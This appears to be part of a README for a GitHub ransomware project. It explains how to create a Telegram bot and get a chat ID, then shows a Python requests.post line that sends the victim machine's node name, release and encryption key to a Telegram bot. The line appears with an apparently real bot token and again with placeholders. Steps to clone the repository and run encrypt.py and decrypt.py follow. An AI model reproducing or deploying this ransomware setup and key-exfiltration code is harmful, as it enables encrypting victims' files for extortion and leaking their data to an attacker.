 >1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})


# Installation

```sh
$ git clone https://github.com/alii76tt/python_ransomware
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```
